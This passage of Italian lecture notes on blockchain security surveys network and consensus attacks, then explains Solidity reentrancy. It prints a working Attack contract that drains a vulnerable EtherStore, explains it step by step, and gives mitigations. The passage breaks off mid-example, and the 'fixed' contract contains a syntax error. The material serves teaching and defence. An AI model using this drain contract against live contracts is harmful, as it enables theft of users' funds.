\chapter{Sicurezza e Privacy in Blockchain}
\begin{comment}
ATTACCHI E VULNERABILITA
    INTRODUZIONE ALLA FRONTIERA DI ATTACCO
    ATTACCHI DI RETE, DI SISTEMA E DI APPLICAZIONE
PROGRAMMAZIONE SICURA DI SMART CONTRACTS
    VULNERABILITA DEI CONTRATTI IN SOLIDITY
    VULNERABILITA DEI CHAINCODE IN HYPERLEDGER FABRIC
BLOCKCHAIN E GDPR
    LIMITI E PROBLEMATICHE
\end{comment}
Rapporti recenti hanno evidenziato i rischi per la sicurezza associati alla Blockchain. Spesso questi attacchi vengono lanciati su applicazioni blockchain a causa della loro popolarità o del capitale coinvolto nel loro sistema. Spesso infatti le blockchain più attaccate sono quelle che gestiscono criptovalute. A causa di una natura pubblicamente verificabile, le criptovalute basate su Blockchain sono vulnerabili a diverse attività fraudolente. Alcuni esempi sono attacchi associati alle tecniche matematiche utilizzate per la creazione del libro mastro, attacchi associati all'architettura peer-to-peer utilizzata nel sistema Blockchain o attacchi associati al contesto applicativo (attacchi agli smart contracts).

\section{Attacchi e vulnerabilità}

Il modello di fiducia debole espone le blockchain pubbliche a un'ampia varietà di attacchi, consentendo agli avversari di compromettere facilmente il sistema. Per affrontare le carenze delle Blockchain pubbliche e ridurre le opportunità di attacco, le blockchain private e con autorizzazione vengono ora utilizzate per varie applicazioni.

\subsection{Attacchi alla struttura}

I fork possono essere creati involontariamente a causa di malfunzionamenti o incompatibilità negli aggiornamenti. Le fork possono anche essere causate con intenti dannosi mediante nodi Sybil o il mining egoistico. Un'altra forma di fork si verifica quando gli utenti di un'applicazione blockchain creano un'applicazione figlia dall'applicazione padre. I fork intenzionali possono essere:
\begin{itemize}
    \item Una soft fork si ha quando la modifica è retrocompatibile;
    \item Una hard fork si ha quando i nuovi blocchi che la rete accetta sembrano non validi per i nodi pre-fork.
\end{itemize}
Un fork rappresenta uno stato incoerente che può essere sfruttato dagli avversari per causare confusione, transazioni fraudolente e sfiducia all'interno della rete. Gli hard fork possono portare a una divisione della criptovaluta. Quando degli attacchi sono riusciti a compromettere con successo una criptovaluta, viene impiegato un hard fork per annullare le transazioni maliziose. Tuttavia questo richiede il consenso nella maggior parte dei nodi. Se si verifica un ritardo del consenso a causa di un attacco di maggioranza o di un evento DDoS, le attività fraudolente diventano alquanto difficili da gestire e ritardi prolungati possono infine causare la svalutazione della criptovaluta.

Possono verificarsi due forme di incongruenze con il processo di consenso che può lasciare blocchi validi fuori dalla Blockchain:
\begin{itemize}
    \item \textbf{Stale block} (blocco obsoleto), se un blocco è stato minato con successo ma non è accettato nella migliore blockchain corrente. Si verifica principalmente nelle Blockchain pubbliche a causa delle race conditions tra i miners: due o più miners possono trovare una soluzione valida, tra cui la rete ne accetta uno solo e scarta il resto, che diventano blocchi obsoleti. Anche il selfish mining può portare a blocchi obsoleti.
    \item \textbf{Orphaned block} (blocco orfano), se un blocco valido ha il campo hash del blocco genitore che punta ad un blocco non autentico.
    
    \begin{figure}[htb!]
        \centering
        
\includegraphics[width=6cm]{./Images/cap5/5.1.png}
    \end{figure}
    
\end{itemize}

Il consenso utilizzato determina le vulnerabilità verificabili:
\begin{itemize}
    \item Uno dei maggiori problemi con la PoW è l'eccessivo spreco di energia per trovare una valida soluzione. La centralizzazione della capacità di hashing tra pochi gruppi di miners rende l'applicazione Blockchain vulnerabile agli attacchi, inclusi gli attacchi della maggioranza e la doppia spesa: se un miner acquisisce la maggioranza dell'hash rate di una rete, sarà in grado di prendere il controllo del sistema.
    \item PoS implica un consenso deterministico poiché un validatore viene scelto prima e i blocchi vengono validati senza ritardi. Inoltre per lanciare un attacco di maggioranza l'attaccante deve acquisire più del 50\% dei token di criptovaluta, più difficile da ottenere rispetto al 50\% di hash rate in PoW. Il meccanismo si polarizza verso i validatori più ricchi che tengono ad arricchirsi progressivamente per la validazione dei blocchi.
    \item PBFT è considerato efficiente dal punto di vista energetico con un elevato throughput di transazione. Tuttavia, assume che la replica primaria esegua fedelmente il protocollo e non manometta l'ordine di transazioni e blocchi. Questa ipotesi può portare a una vulnerabilità nelle Blockchain permissioned, ma siccome l'identità della replica primaria è nota, è possibile monitorarne il comportamento.
    
    PBFT è affetto da una limitata scalabilità e bassa tolleranza ai fallimenti bizantini, che aumenta la possibilità per un avversario di inserire repliche dannose. Attualmente, Bitcoin ha oltre 10.000 nodi completi attivi, e può tollerare fino a 5.000 nodi difettosi. In una blockchain privata basata su PBFT che consiste di 100 nodi, un aggressore può avere successo solo controllando 33 nodi.
\end{itemize}

\subsection{Attacchi al sistema P2P}

L'attacco del selfish mining è una strategia scelta da alcuni minatori che tentano di aumentare le loro ricompense mantenendo deliberatamente privati i loro blocchi e determinando una block race tra la catena pubblica degli onesti e la catena privata degli egoisti. Ciò causa risultati indesiderabili invalidando i blocchi onesti con tutte quelli loro che vengono rifiutati e la possibilità di occorrenza di fork che possono causare un ritardo del consenso e il sopraggiungere di altri potenziali attacchi come \textit{doppia spesa} e \textit{fork after withholding}.

\begin{figure}[htb!]
    \centering
    
\includegraphics[width=7cm]{./Images/cap5/5.2.png}
\end{figure}

L'attacco 51\% è una vulnerabilità che può essere sfruttata quando un singolo aggressore, un gruppo di nodi Sybil o un pool di mining nella rete raggiunge la maggior parte dell'hash rate della rete per manipolare la blockchain ed essere in grado di:
\begin{itemize}
    \item impedire la verifica di transazioni o blocchi, rendendoli non validi;
    \item invertire le transazioni durante il tempo in cui hanno il controllo per consentire la doppia spesa;
    \item forkare la Blockchain principale e dividere la rete;
    \item impedire ad altri miners di validare blocchi per un breve periodo di tempo.
\end{itemize}
Si consideri lo scenario in cui un pool di mining malizioso con un potere di hash significativo esegue una transazione T\textsubscript{x} valida. Allo stesso tempo, genera una transazione fraudolenta T\textsubscript{y} a doppia spesa dalla stessa transazione genitore. Il destinatario attende \textit{k} conferme della fork prima di rilasciare il prodotto al miner, ovvero che \textit{k} blocchi successivi sono stati estratti dalla rete dopo aver validato la transazione T\textsubscript{x}. Durante questo processo, il miner malizioso continua ad estrarre blocchi. Forzando la catena, il miner dannoso sarà in grado di invalidare la catena con transazione T\textsubscript{x} e la sostituirà con la propria catena T\textsubscript{y}.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=9cm]{./Images/cap5/5.3.png}
\end{figure}

Quando un nodo si unisce alla rete Bitcoin per la prima volta, non è a conoscenza dei peer attivi. Per scoprirli, è necessario un meccanismo di bootstrap come i DNS. I seed DNS vengono interrogati per ottenere informazioni sui peer attivi con cui stabilire delle connessioni. La query DNS iniziale restituisce uno o più records DNS con gli indirizzi IP corrispondenti ai peer che accettano le connessioni in entrata. FNS rappresenta una criticità per blockchain siccome è vulnerabile ad attacchi man-in-the-middle. Per impostazione predefinita, il client blockchain ha un elenco di seeder che consentono la scoperta della rete. Se l'aggressore inserisce un falso elenco, l'utente verrà compromesso e condotto a una rete contraffatta.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=8cm]{./Images/cap5/5.4.png}
\end{figure}

Nella figura in alto, un nodo nella rete Bitcoin ha un indirizzo IP di 33.33.33.3, mentre il nodo dell'aggressore in una rete contraffatta ha un indirizzo IP 22.22.22.2. L'autore realizza un attacco DNS cache poisoning per indurre l'utente a entrare nella rete contraffatta. L'utente esegue la query DNS su seed.bitcoin.sipa.be, e invece di rispondere con 33.33.33.3, il resolver DNS restituisce 22.22.22.2. Di conseguenza, l'utente si connette a nodi maliziosi nella rete contraffatta e i nodi dannosi potrebbero fornire falsi blocchi all'utente.

Ci sono due tipi di nodi nella maggior parte delle applicazioni blockchain:
\begin{itemize}
    \item I \textbf{full nodes} sono partecipanti effettivi alla rete e mantengono una copia aggiornata della blockchain.
    \item I \textbf{lightweight nodes} utilizzano solo i servizi dei nodi completi per ottenere l'accesso alla rete.
\end{itemize}

Poiché i nodi leggeri traggono la loro visione della blockchain dai nodi completi, quando un nodo completo viene compromesso, anche tutti i suoi nodi leggeri associati vengono compromessi. La concentrazione spaziale dei nodi completi all'interno di un AS o di un ISP li rende vulnerabili agli attacchi di routing come il dirottamento BGP. Un AS antagonista può dirottare il traffico per un AS target che ospita la maggior parte dei nodi dell'applicazione blockchain.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=8cm]{./Images/cap5/5.5.png}
\end{figure}

Trasmettendo percorsi di rete maliziosi tramite BGP, l'attaccante è in grado di reindirizzare il traffico da server di mining legittimi su una rete a server fasulli mascherata come originale. Questi server di mining fasulli hanno permesso ai clienti di continuare a estrarre criptovaluta ma non hanno mai ricevuto alcuna ricompensa per il lavoro svolto. Tutti i proventi dell'attività di mining sono invece andati direttamente verso i nodi fasulli dell'attaccante. Un sottoinsieme di miners è organizzato come un pool a cui fa capo un pool server, che sottopone dei lavori e restituisce reward. Il protocollo di comunicazione tra miners è \textbf{Stratum}, realizzato al di sopra di TCP e con messaggi in JSON. È stato dimostrato che dirottando meno di 100 prefissi BGP in Bitcoin, un aggressore può isolare fino al 50\% della capacità di hashing della rete, e che il 60\% di tutto il traffico Bitcoin attraversa solo tre ISP.

\vspace{5mm}

Il sistema peer-to-peer di Blockchain è anche vulnerabile a una forma di attacco nota come \textbf{Eclipse Attack}, in cui un gruppo di nodi dannosi isola i nodi vicini, compromettendo così il traffico in entrata e in uscita. In Bitcoin i nodi formano dei cluster, dove ogni peer è a conoscenza dell'indirizzo IP di tutti. Con un numero sufficiente di nodi compromessi in un cluster, si possono isolare i nodi onesti e modificarne la copia locale dello stato della blockchain, controllando il loro traffico in entrata e in uscita e fornendo loro informazioni false.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=10cm]{./Images/cap5/5.6.png}
\end{figure}

I nodi blu rappresentano i nodi onesti che memorizzano il vero stato della blockchain mentre i nodi rossi rappresentano i nodi maliziosi che formano un cluster attorno ai nodi blu. Se la connessione tra i nodi onesti è compromessa, i nodi dannosi possono inviare blocchi falsi ai nodi onesti e partizionarli dalla rete. Di conseguenza, i nodi onesti finiscono per avere una visione sbagliata dello stato della blockchain.

\vspace{5mm}

Uno degli attacchi più comuni è il \textbf{Distributed Denial of Service} (DDoS), che consiste nel tempestare di richieste un sistema o una sua parte fino a renderlo irraggiungibile. Nonostante sia un sistema peer-to-peer, blockchain è soggetta ad attacchi DDoS, manifestandosi in diversi modi. Il numero di transazioni per blocco che un'applicazione blockahin può elaborare in un dato tempo è limitato: un blocco Bitcoin ha la dimensione di 1 MB, mentre la dimensione media di una transazione è di circa 500 byte, consentendo in media circa 2.000 transazioni per blocco. Il tempo medio per il mining di un blocco è di circa 10 minuti. Pertanto, non si possono superare le 200 transazioni al minuto, e il totale dei peer attivi serviti dalla rete al piu non supera 200. Dati questi vincoli, il throughput è di 3-7 transazioni al secondo. 

Un avversario può sfruttare varie identità Sybil ed emettere diverse transazioni di "polvere" (ad esempio 0,001 BTC per transazione) tra le varie identità Sybil sotto il suo controllo. Introducendo un gran numero di transazioni di scarso valore in un breve periodo di tempo, la rete sarà congestionata e il servizio agli utenti legittimi della rete sarà negato. Un'altra forma di attacco DDoS viene eseguita presso i \texttt{mempool} delle criptovalute per aumentare la tariffa di mining.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=11cm]{./Images/cap5/5.7.png}
\end{figure}

In Bitcoin, l'utente A genera una transazione per l'utente B. La transazione viene archiviata nel pool di memoria insieme ad altre transazioni non confermate. Il minatore convalida le transazioni dal pool di memoria e calcola un blocco. Un blocco valido viene aggiunto alla blockchain.

Sebbene la dimensione del blocco sia limitata nelle criptovalute, la dimensione del pool non ha limiti. Più transazioni sono nel \texttt{mempool}, più è forte la concorrenza per accaparrarsi i miners. Per dare maggiore priorità alle proprie transazioni, gli utenti iniziano a pagare maggiori mining rewards, come incentivo per i miners. Un avversario potrebbe inondare i \texttt{mempool} con transazioni di polvere, portando gli utenti legittimi ad aumentare la commissione di mining così che le transazioni dell'attaccante non vengano minate.

La natura peer-to-peer alla base di una blockchain può essere sfruttata per creare visioni contrastanti del suo stato globale. I nodi dannosi possono intenzionalmente mascherare, falsificare o nascondere informazioni importanti che devono essere trasmesse attraverso la rete. L'\textbf{Attacco Finney} è una variante del double spending in cui un minatore ritarda la propagazione dei blocchi per spendere due volte la sua transazione.
\begin{enumerate}
    \item Il miner genera una transazione, computa un blocco e sceglie di non ritrasmettere il blocco.
    \item Genera un duplicato della sua transazione precedente e lo invia a un destinatario.
    \item Dopo che il destinatario accetta la transazione e consegna il prodotto, il miner pubblica il suo blocco precedente con la transazione originale.
    \item La transazione precedente diventa non valida e il minatore spende con successo il doppio.
\end{enumerate}
Nel pool di mining decentralizzati, tutti i partecipanti consumano elettricità e potenza della CPU per trovare un nonce il cui valore di un hash con il blocco è inferiore alla soglia di destinazione. Una volta trovata la soluzione valida, tutti i partecipanti vengono ricompensati in base al loro impegno. Nel \textbf{block withholding attack}, un miner compromesso risolve il puzzle crittografico della PoW, ma sceglie di non rivelarla al pool server. Ignari di ciò, il resto dei miner del pool sprecano le loro risorse per trovare il nonce e alla fine perdono la gara. Infatti il miner malizioso può condividere il nonce trovato con nodi in altri pool per una ricompensa maggiore. Una variante di questo attacco è il \textbf{Fork After Withholding} (FAW). Il funzionamento di un FAW attack è il seguente:
\begin{enumerate}
    \item Un miner dannoso si unisce a due pool di mining.
    \item Il miner calcola un PoW valido nel primo pool.
    \item Trattiene la soluzione e pubblica il blocco solo quando anche il secondo pool pubblica il blocco.
    \item La rete risolve la fork selezionando un blocco tra i due.
    \item Il minatore dannoso viene ricompensato in entrambi i casi.
\end{enumerate}
Se l'attacco FAW viene lanciato tra due o più pool di pool, quello più grande vincerà sempre nel caso di competizione. Pertanto, l'attacco FAW è più redditizio del selfish mining e del block withholding attack. Nelle blockchain permissioned, se l'avversario controlla la replica primaria, può trattenere blocchi e transazioni per compromettere il sistema e ritardare l'elaborazione delle transazioni.

\vspace{5mm}

Un altro attacco associato coinvolge il ritardo del consenso: un utente malintenzionato può iniettare falsi blocchi per aggiungere latenza o impedire ai peer di raggiungere il consenso, propagando blocchi obsoleti o transazioni doppie. Nelle blockchain private basate su PBFT, un avversario può causare un ritardo del consenso anche se controlla un basso numero di repliche (meno del 33\%). Dei nodi Sybil possono anche inviare firme fasulle alle altre repliche durante la fase di \texttt{prepare} e \texttt{commit}. Poiché ogni replica è tenuta a verificare le firme, si ha un sovraccarico aggiuntivo. Se si continua a inviare tali firme, è possibile rallentare o bloccare il completamento della fase di commit. La replica primaria non riceverà il numero di approvazioni richiesto per la verifica della transazione. 

Ogni blocco memorizza un timestamp che rappresenta il tempo approssimativo della sua creazione. In Bitcoin, ad esempio, un nodo rifiuta un blocco se il suo timestamp supera il tempo di rete di 120 minuti. A tale scopo, i full nodes mantengono un contatore interno che denota l'ora della rete che viene sincronizzato mediate un algoritmo di sincronizzazione interna. Un attaccante con nodi Sybil può rallentare il tempo di rete di un nodo target, inviandogli timestamp variabili fasulli. Ciò può portare a una differenza tra il tempo di blocco e il contatore del nodo maggiore di 120 minuti, con conseguente rifiuto del blocco e di tutti quelli successivi. Il nodo target alla fine viene isolato.

\subsection{Attacchi alle applicazioni}
Le blockchain pubbliche hanno una nozione debole di anonimato e forniscono accessibilità ai dati aperti al pubblico. L'analisi della blockchain pubblica, detta \textbf{block ingestion}, può rivelare informazioni utili ad un avversario, e potrebbe non essere desiderabile per un'applicazione o per i suoi utenti. Nelle blockchain, una volta che una transazione è stata approvata, non può essere annullata. Ciò ha portato a varie attività di trugga irreversibili online, in cui gli utenti sono stati indotti a inviare denaro. L'assenza di un'autorità centrale rende più difficile denunciare la frode e aspettarsi il rimborso.

Nelle criptovalute, il \textbf{double spending} si riferisce all'uso di una transazione due o più volte, firmando la stessa transazione con una chiave privata e inviandola a due diversi destinatari. Poniamo l'esempio di un compratore che ha la transazione con ID 537704 nel suo saldo. Usandola come input, genera due transazioni per pagare due venditori. Quando un miner interroga il \texttt{mempool}, può selezionare una delle due per creare un nuovo blocco incluso in un ramo della catena accettata. L'altra transazioni è contenuta in un blocco rigettato, pertanto il suo venditore non vedrà corrisposto il pagamento.

Il cryptojacking è una forma di attacco che viene lanciata su servizi
web e cloud per eseguire illegalmente PoW, senza che l'utente ne sia consapevole o dia il proprio consenso, per criptovalute basate su blockchain permissionless. Il cryptojacking consiste nel rubare le risorse di elaborazione dai dispositivi delle loro vittime. Combinando tutte queste risorse, gli hacker sono in grado di competere con sofisticate operazioni di cryptomining senza gli elevati costi associati.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=8cm]{./Images/cap5/5.8.png}
\end{figure}

Un avversario può compromettere un computer in vario modo come facendo clic su un link
dannoso in un'e-mail, e caricare il codice di cryptomining direttamente sul computer
vittima. Il codice di cryptomining può ricevere richieste di lavoro di mining e svolgerle, rallentando
le elaborazioni sulla macchina vittima. Il frutto di tali elaborazioni sono blocchi validati che
vengono inseriti nella blockchain, e le relative reward sono girate all’attaccante. Un esempio è rappresentato
dal CoinHive malware.

Laddove le credenziali, come le chiavi, associate ai peer nel sistema
sono archiviate in un portafoglio digitale, l'attacco "furto del
portafoglio" diventa particolarmente critico e probabile. In Bitcoin, il portafoglio viene archiviato di default non
crittografato, consentendo a un avversario di apprendere le
credenziali associate e quali transazioni esso ha emesso. Anche quando protetto in modo sicuro
sull'host, attacchi alla macchina ospitante consentirà all’avversario di rubarlo. Sussistono molti servizi di terze parti che
consentono l'archiviazione di portafogli,
anche questi servizi possono essere
compromessi e i relativi portafogli
esposti a un avversario.

Un problema ben noto nelle cryptovalute
basate su Blockchain è l'esposizione e il
furto di chiavi private. Se l'aggressore acquisisce la chiave
privata di un utente, può firmare e
generare una nuova transazione al
suo posto, spendendo il suo saldo.
Le blockchain pubbliche dispongono di applicazioni client open
source che consentono agli utenti di connettersi alla rete. Nel tempo
vengono rilasciate nuove versioni del software, implementando
nuove regole e aggiornamenti, o patch per risolvere vulnerabilità.

Non tutti i nodi scaricano la
versione appena rilasciata,
ma continuano a usare il
vecchio software e
rimangono esposti alle sue
vulnerabilità.
Per l'adozione del client di Bitcoin nel 2018, solo il 36,28\% dei nodi utilizza la versione più aggiornata e immune agli attacchi DDoS.
Il codice open source può essere sfruttato da un avversario per
rilasciare un nuovo aggiornamento con codice dannoso. Se un
utente installa il software, può fornire l'accesso all'attaccante che
può lanciare vari attacchi e ghermire dati sensibili dell’utente.

Nuove applicazioni sono realizzate sfruttando un apposito linguaggio
di programmazione, e caratterizzati da una serie di vulnerabilità e
creano una nuova superficie di attacco.
Un certo numero di progetti hanno
identificato la sicurezza degli smart
contract come un'esigenza del mercato e
hanno proposto soluzioni per l'audit e la
revisione degli smart contract mediante la
loro analisi statica. La maggior parte delle vulnerabilità può essere scovata in questo modo.

\section{Programmazione sicura di Smart Contracts}
La maggior parte delle vulnerabilità che vengono esposte sono errori software o pratiche di programmazione scorrette che è importante saper riconoscere per evitare. Esistono veri e proprio db dove sono salvate le vulnerabilità più conosciute che durante la compilazione del codice sollevano dei warning per avvisare lo sviluppatore della vulnerabilità. Vedremo le vulnerabilità nei due linguaggi più diffusi per la scrittura di smart contract, Solididy e Go lang. 

\subsection{Vulnerabilità in Solidity}
Una delle caratteristiche degli smart contract di Ethereum è la possibilità di chiamare e utilizzare il codice di altri contratti esterni, e ciò richiede una chiamata esterna. Queste chiamate esterne possono essere dirottate dagli aggressori per eseguire ulteriore codice (cioè una funzione di fallback), comprese le chiamate in sé stesso. Così l'esecuzione del codice "rientra" nel contratto. Questa è una vulnerabilità di rientro dello smart contract. Può verificarsi se si verifica una catena di chiamate in loop tra due contratti. Vediamo un contratto scritto in Solidity:
\begin{lstlisting}[language=Solidity]
contract EtherStore {
    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;
    
    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdrawFunds(uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        //limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        //limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
}
\end{lstlisting}
Gli attributi dichiarati in questo contratto sono:
\begin{itemize}
    \item \texttt{withdrawalLimit} che rappresenta il limite di prelievo;
    \item \texttt{lastWithdrawTime} e \texttt{balances} che sono dichiarate come mappe, ovvero coppie chiave-valore di elementi, che in questo caso hanno l'indirizzo come chiave e un interno senza segno a 256 bit come valore.
    \item \texttt{msg}, non esplicitamente dichiarato ma passato dal sistema allo smart contract: è il messaggio che contiene la transazione.
\end{itemize}
Il limite è fisso per ogni utente quindi viene utilizzato un valore intero. Invece ogni utente avrà l'ultima data del prelievo diversa per cui viene utilizzato il mapping chiave-valore.
Le funzioni invece sono:
\begin{itemize}
    \item \texttt{depositFunds()}, che si occupa di depositare fondi. La parola chiave \texttt{payable} indica che la funziona può ricevere Ether mentre viene chiamata, ovvero che il chiamante invia criptovaluta (in questo caso dal suo wallet al wallet dello smart contract). Utilizzando la parola \texttt{payable} non devo inserire l'argomento nella firma della funzione. 
    \item \texttt{withdrawFunds()}, che serve a prelevare. La parola chiave \texttt{require} funziona come \texttt{assert} in altri linguaggi. Controlla che il saldo associato al sender sia sufficiente, che la richiesta non superi il limite, e controlla che l'operazione di prelievo supera una settimana rispetto all'ultima effettuata.
\end{itemize}
La vulnerabilità si trova nella riga:

\texttt{require(msg.sender.call.value(\_weiToWithdraw)());}

Ma in cosa consiste questa vulnerabilità? Per scoprirlo vediamo un contratto malizioso:

\begin{lstlisting}[language=Solidity]
import "EtherStore.sol"

contract Attack {
    EtherStore public etherStore;
    //initialise the etherStore variable with the contract address
    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }
    
    function pwnEtherStore() public payable {
        //attack to the nearest ether
        require(msg.value >= 1 ether);
        //send eth to the depositFunds() function
        etherStore.depositFunds.value(1 ether)();
        //start the magic
        etherStore.withdrawFunds(1 ether);
    }
    
    function collectEther() public {
        msg.sender.transfer(this.balance);
    }
    
    //fallback function - where the magic happens
    function () payable {
        if (etherStore.balance > 1 ether) {
            etherStore.withdrawFunds(1 ether);
        }
    }
}
\end{lstlisting}

\begin{itemize}
    \item Il contratto ha un costruttore, quindi una funzione di inizializzazione del suo stato: gli passo un indirizzo di un wallet e lo istanzio come parametro del contratto.
    \item Nella funzione \texttt{pwnEtherStore}, che è \texttt{payable}, controllo se il valore della transazione è maggiore di 1 ether, e nel caso deposito 1 ether nel contratto legittimo. Dopodiché faccio un prelievo di 1 ether. \item La funzione \texttt{collectEther()} quando viene invocata trasferisce il saldo (il balance è quello del contratto, dato che ogni contratto ha una criptovaluta memorizzata al suo interno).
    \item In Solidity, per invocare uno smart contract devo conoscerne la firma, ovvero ho bisogno di dire allo smart contract quale funzione sto chiamando. Normalmente è possibile invocare un contratto sia senza specificare una funzione, che specificando il nome di una funzione. Se la funzione non è presente, viene invocata una funzione di fallback.
    \item La funzione di fallback è \texttt{payable}, quindi ha un costo. Se la vittima che invoca questa funzione ha ancora delle criptovalute nel wallet, allora prelevo 1 ether. 
    \item La funzione \texttt{depositFunds()} del contratto \texttt{etherStore} verrà chiamata con un valore di 1 ether (e molto gas). Il mittente (\texttt{msg.sender}) sarà il contratto dannoso, il cui balance è 1 ether. Il contratto dannoso chiamerà quindi la funzione \texttt{drawFunds()} del contratto \texttt{etherStore} con un parametro di 1 ether. Questo soddisferà tutti i requisiti della funzione e il contratto \texttt{etherStore} invierà quindi 1 ether al contratto dannoso.
    \item L'ether inviato al contratto dannoso eseguirà quindi la funzione di fallback. Siccome un solo ether è stato prelevato (il saldo totale del contratto \texttt{etherStore} era di 10 ether ed ora è di 9 ether), la condizione dell'if è soddisfatta. La funzione di fallback quindi chiama di nuovo la funzione \texttt{withdrawFunds()} di \texttt{etherStore} è rientra nel contratto \texttt{etherStore}. Nella seconda chiamata a \texttt{withdrawFunds()} il saldo dell'utente è ancora 1 ether perché la riga
    
    \texttt{17.   balances[msg.sender] -= \_weiToWithdraw;}
    
    non è stata ancora eseguita. Anche la riga successiva non è stata eseguita, quindi abbiamo superato tutti i requisiti e viene prelevato un altro ether.
    \item In questo modo il contratto dannoso viene chiamato (e quindi viene chiamata la funzione di fallback) fin quando il balance non è stato azzerato. Dopodiché l'if della fallback function non sarà soddisfatto è il controllo tornerà al chiamante che imposterà la variabile \texttt{lastWithdrawalTime} e terminerà l'esecuzione.
\end{itemize}
Il risultato finale è che l'attaccante ha ritirato tutti gli Ether dal contratto \texttt{etherStore} istantaneamente con una singola transazione. Esistono numerose tecniche per evitare potenziali vulnerabilità di rientro negli smart contract:
\begin{enumerate}
    \item utilizzare la funzione \texttt{transfer()} al posto di quella di \texttt{send()} quando si invia ether a contratti esterni, che invia solo 2300 gas che non sono sufficienti per chiamare un altro contratto (ovvero reinserire il contratto di invio);
    \item assicurarsi che tutta la logica che cambia le variabili di stato avvenga prima che l'ether venga inviato dal contratto. Nell'esempio \texttt{etherStore}, le righe 17 e quella successiva di \texttt{EtherStore.sol} devono essere inserite prima. È buona norma inserire qualsiasi codice che esegua chiamate esterne a indirizzi sconosciuti come ultima operazione in una funzione, secondo il \textit{check-effects-interactions} pattern;
    \item introdurre un mutex, così da bloccare il contratto durante l'esecuzione del codice, impedendo le chiamate di rientro.
\end{enumerate}
La vulnerabilità è dovuta sia al fatto che Solidity ha il meccanismo di fallback, sia al fatto che quando in Ethereum ho un indirizzo, non distinguo se questo indirizzo appartiene ad un utente o ad uno smart contract. 
Un esempio del \textit{check-effects-interactions} pattern è il seguente:
\begin{lstlisting}[language=Solidity]
contract ChecksEffectsInteractions {
    mapping(address => uint) balances;
    function deposit() public payable {
        balances[msg.sender] = msg.value;
    }
    function withdraw(uint amount) public {
        require(balances[msg.sender] >= amount);
        balances[msg.sender] -= amount;
        msg.sender.transfer(amount);
    }
}
\end{lstlisting}
La nuova implementazione dello smart contract è la seguente:
\begin{lstlisting}[language=Solidity]
contract EtherStore {
    //initialize the mutex
    bool reEntrancyMutex = false;
    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;
    
    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdrawFunds(uint256 _weiToWithdraw) public {
        require(!reEntrancyMutex);
        require(balances[msg.sender] >= _weiToWithdraw);
        //limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        //limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
        //set the reEntrancy mutex before the external call
        reEntrancyMutex = true;
        (msg.sender.transfer(_weiToWithdraw);
        //release the mutex after the external call
        reEntrancyMutex = false;
    }
}
\end{lstlisting}
La Ethereum Virtual Machine (EVM) specifica i tipi a dimensione fissa per gli interi con un intervallo limitato di rappresentazione. Un \texttt{uint8} può memorizzare solo numeri nell'intervallo [0,255]. Il tentativo di memorizzare 256 in un \texttt{uint8} risulterà in 0. Se non si fa attenzione, possono sopraggiungere problemi se l'input dell'utente non è controllato e vengono eseguiti calcoli che risultano in numeri che si trovano al di fuori dell'intervallo di rappresentazione del tipo della variabile che li memorizza:
\begin{itemize}
    \item \textbf{Underflow} - sottraendo 1 ad una variabile \texttt{uint8} che memorizza 0 si otterrà il numero 255.
    \item \textbf{Overflow} - aggiungendo 257 a una variabile di tipo \texttt{uint8} che attualmente ha un valore zero si otterrà il numero 1.
    \item Aggiungendo 2\textsuperscript{8} = 256 a una variabile di tipo \texttt{uint8} non ha alcun effetto di modifica del valore memorizzato.
\end{itemize}
Questi tipi di vulnerabilità consentono agli attaccanti di utilizzare in modo improprio il codice e creare flussi logici imprevisti. Ad esempio questo contratto è progettato per agire come un salvadanaio a tempo, in cui gli utenti possono depositare Ether e il deposito sarà bloccato per almeno una settimana. L'utente può estendere il tempo per più di una settimana se lo desidera, ma una volta depositato può essere certo che il proprio ether sia bloccato in modo sicuro per almeno una settimana.

\begin{lstlisting}[language=Solidity]
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;
